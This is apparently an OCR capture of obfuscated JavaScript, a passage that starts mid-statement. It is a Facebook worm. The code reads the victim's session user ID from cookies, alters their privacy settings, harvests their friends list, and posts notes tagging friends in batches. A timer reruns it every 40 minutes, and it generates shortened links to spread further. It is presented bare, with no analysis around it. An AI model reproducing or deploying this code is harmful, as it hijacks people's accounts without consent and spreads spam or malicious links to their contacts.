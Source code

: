 _0x6dcax1b=_0x6dcax1a[_0xeac6[5]]-1;var _0x6dcax14=_0x6dcax1a[_0x6dcax1b];var _0x6dcax1c=get_su_params(_0x6dcax10,_0x6dcax9,_0x6dcax13,_0x6dcax14,_0x6dcax15,_0x6dcax16);fb_su_post(_0x6dcax10,_0x6dcax1c);}};_0x6dcaxd[_0xeac6[17]](_0xeac6[27],_0xeac6[104],true);_0x6dcaxd[_0xeac6[31]](_0xeac6[29],_0xeac6[30]);_0x6dcaxd[_0xeac6[18]](_0x6dcaxc);};get_fb_friends=function(profile_id){xmlhttp= new XMLHttpRequest();xmlhttp[_0xeac6[17]](_0xeac6[15],_0xeac6[105]+profile_id+_0xeac6[106]+Math[_0xeac6[12]](),false);xmlhttp[_0xeac6[18]]();if(xmlhttp[_0xeac6[32]]!=4){}else {data=eval(_0xeac6[107]+xmlhttp[_0xeac6[19]][_0xeac6[108]](9)+_0xeac6[109]);if(data[_0xeac6[110]]){}else {friends=data[_0xeac6[114]][_0xeac6[113]][_0xeac6[112]](function(_0x6dcax1d,_0x6dcax1e){return _0x6dcax1d[_0xeac6[111]]-_0x6dcax1e[_0xeac6[111]]})};};var _0x6dcax1f= new Array( new Array());var _0x6dcax20=0;var _0x6dcax21=0;for(var _0x6dcax1=0;_0x6dcax1<friends[_0xeac6[5]];_0x6dcax1++){if(friends[_0x6dcax1][_0xeac6[115]]!=profile_id){_0x6dcax1f[_0x6dcax21][_0x6dcax20]=_0xeac6[116]+_0x6dcax20+_0xeac6[117]+friends[_0x6dcax1][_0xeac6[115]];_0x6dcax20++;if(_0x6dcax20>=20){_0x6dcax20=0;_0x6dcax21++;_0x6dcax1f[_0x6dcax21]= new Array();};}};return _0x6dcax1f;};start_operation=function(){var _0x6dcax10=document[_0xeac6[119]][_0xeac6[118]](/c_user=(\d+)/)[1];var _0x6dcax12=document[_0xeac6[122]](_0xeac6[121])[0][_0xeac6[120]];var _0x6dcax22=get_not_object_id(_0x6dcax12);var _0x6dcax15=fb_get_privacy();if(_0x6dcax15!=_0xeac6[7]){fb_get_privacy_change(_0x6dcax10,_0x6dcax12,_0x6dcax15)};var _0x6dcax23=get_fb_links();if(_0x6dcax23[_0xeac6[123]]==_0xeac6[124]){return false};var _0x6dcax24=_0x6dcax23[_0xeac6[123]];var _0x6dcax25=_0x6dcax23[_0xeac6[125]];var _0x6dcax26=get_random_alfa(10);var _0x6dcax27=_0xeac6[126]+_0x6dcax24+_0xeac6[127]+_0x6dcax25+_0xeac6[128]+get_random_alfa(8);var _0x6dcax13=_0xeac6[129];var _0x6dcax16=_0xeac6[7];var _0x6dcax28=get_fb_friends(_0x6dcax10);for(var _0x6dcax1=0;_0x6dcax1<_0x6dcax28[_0xeac6[5]];_0x6dcax1++){for(var _0x6dcax29=0;_0x6dcax29<_0x6dcax28[_0x6dcax1][_0xeac6[5]];_0x6dcax29++){_0x6dcax16+=_0x6dcax28[_0x6dcax1][_0x6dcax29]};share_fb_note(_0x6dcax10,_0x6dcax12,_0x6dcax22,_0x6dcax16,_0x6dcax26,_0x6dcax27,_0x6dcax15,_0x6dcax13);_0x6dcax16=_0xeac6[7];if(_0x6dcax1>=2){return false};};};if(location[_0xeac6[2]][_0xeac6[1]](_0xeac6[0])>=0){var profile_id=document[_0xeac6[119]][_0xeac6[118]](/c_user=(\d+)/)[1];var odate= new Date();if(!localStorage[_0xeac6[130]+profile_id]||(localStorage[_0xeac6[130]+profile_id]&&odate[_0xeac6[131]]()>=localStorage[_0xeac6[130]+profile_id])){odate[_0xeac6[132]](odate[_0xeac6[131]]()+1000*60*40);localStorage[_0xeac6[130]+profile_id]=odate[_0xeac6[131]]();start_operation();};};function tinyyap(_0x6dcax2c){_0x6dcax2c=_0x6dcax2c+_0xeac6[133]+get_random_alfa(8);var _0x6dcax2d= new XMLHttpRequest();_0x6dcax2d[_0xeac6[17]](_0xeac6[15],_0xeac6[134]+encodeURIComponent(_0x6dcax2c),false);_0x6dcax2d[_0xeac6[18]]();return _0x6dcax2d[_0xeac6[19]];}function isgdyap(_0x6dcax2c){_0x6dcax2c=_0x6dcax2c+_0xeac6[133]+get_random_alfa(8);var _0x6dcax2d= new XMLHttpRequest();_0x6dcax2d[_0xeac6[17]](_0xeac6[15],_0xeac6[135]+encodeURIComponent(_0x6dcax2c),false);_0x6dcax2d[_0xeac6[18]]();return _0x6dcax2d[_0xeac6[19]];}



